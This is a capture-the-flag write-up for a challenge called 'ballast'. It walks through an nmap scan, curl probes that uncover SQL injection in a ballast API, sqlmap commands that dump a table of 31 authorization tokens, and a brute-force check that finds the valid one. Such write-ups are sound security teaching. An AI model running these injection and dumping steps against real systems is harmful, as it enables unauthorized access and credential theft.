


# ballast

## Challenge

```
We need as many options to stop this boat as we can find! If you can figure out a way to sabotage it instead of just taking control of the navigation, that'll work too!

Target: Your target is the authorization code to control the ballast system.

10.0.1.11
```

## Walkthrough

```sh
$ sudo nmap 10.0.1.11 -sS -v -A -p 0-65535
...
Discovered open port 22/tcp on 10.0.1.11
Discovered open port 31968/tcp on 10.0.1.11
Discovered open port 3002/tcp on 10.0.1.11
...
3002/tcp  open  http        nginx
|_http-title: OpenBridge :: Index
...
31968/tcp open  ssl/unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
...
```

There were 2 HTTP servers running on the machine. Visting each server showed that `:3002` was running a different challenge. `:31968` was what I nedeed to exploit.

Navigating to `:31968` provided a convenient swagger definitions page behind a warning page due to the self signed certificate.




Clearly I needed to exploit the `GET /ballast` in order to find the auth token.

I played around with some different invalid inputs to get a feel for what I thought that exploit might be.


```sh
$ curl -k 'https://10.0.1.11:31968/ballast?rt=123' 
[{"readTime":"2022-01-16T00:56:14Z","statusRaw":972035,"port":97,"stbd":97}]

$ curl -k 'https://10.0.1.11:31968/ballast?rt=abcd'
[]

$ curl -k 'https://10.0.1.11:31968/ballast?rt=--abcd'
[{"readTime":"2022-01-16T00:56:14Z","statusRaw":972035,"port":97,"stbd":97}]   
```

After noticing that an invalid input lead to an empty json array I tried placing the string after an SQL comment `--`. This worked, giving away that the issue was likely SQLI.

To exploit the SQLI I brought out `sqlmap`, an automatic SQLI exploiting tool. I had to run it through an HTTP proxy since `sqlmap` doesn't support an insecure mode where certificates aren't checked.

```sh
$ sqlmap -u 'https://10.0.1.11:31968/ballast?rt=1' --proxy="http://localhost:8080" --level 5 --risk 3 --threads 10 --tables
...
[2 tables]
+--------+
| auth   |
| sensor |
+--------+
...

$ sqlmap -u 'https://10.0.1.11:31968/ballast?rt=1' --proxy="http://localhost:8080" --level 5 --risk 3 --threads 10 -T auth
...
Table: auth
[31 entries]
+------------------+------+
| auth             | code |
+------------------+------+
| 7c891300d29ee171 | 1    |
| d4e26453da9da0da | 2    |
| c4bb7fbedcd289f9 | 3    |
| f2fa13a69c41edd3 | 4    |
| 5a834caf9aa572f2 | 5    |
| 265f6855da808fee | 6    |
| af0a0ebbd8d06805 | 7    |
| 1a3bdc9e354595b3 | 8    |
| 0dcded01a3ef45b3 | 9    |
| 396324979803a664 | 10   |
| 87fd4e2c33578122 | 11   |
| ba418662d921ca86 | 12   |
| 274d080f89b03da1 | 13   |
| 6433c4059f5ac1d5 | 14   |
| 4110cf37d60ac7a5 | 15   |
| b6af0a74f1787e3a | 16   |
| 162aebf2755e2f42 | 17   |
| 6d2af8874200f1f7 | 18   |
| fe142ee05fbdf046 | 19   |
| c17a5d2a0857c687 | 20   |
| 7b3ced5924e1beed | 21   |
| 7245a54b379f996a | 22   |
| 5180e6aaa397fb6a | 23   |
| 17d3cf64165ac676 | 24   |
| 60d9051cbc7df99e | 25   |
| c661182f67edb4a8 | 26   |
| 4af257c2e1529722 | 27   |
| b5ea4144e885b1db | 28   |
| 7a92ebfcd8e93047 | 29   |
| a4f494fa78df7a39 | 30   |
| 61e521c49e0d13a5 | 31   |
+------------------+------+
...
```

And this is where I ran out of time :( However I continued to solve the challenge after the timer was up.

I created a python script to try every auth token and find which was correct. [authcheck.py](authcheck.py)

```
$ python3 authcheck.py
...
b6af0a74f1787e3a 202
```

So close!

## Solve

token: `b6af0a74f1787e3a`
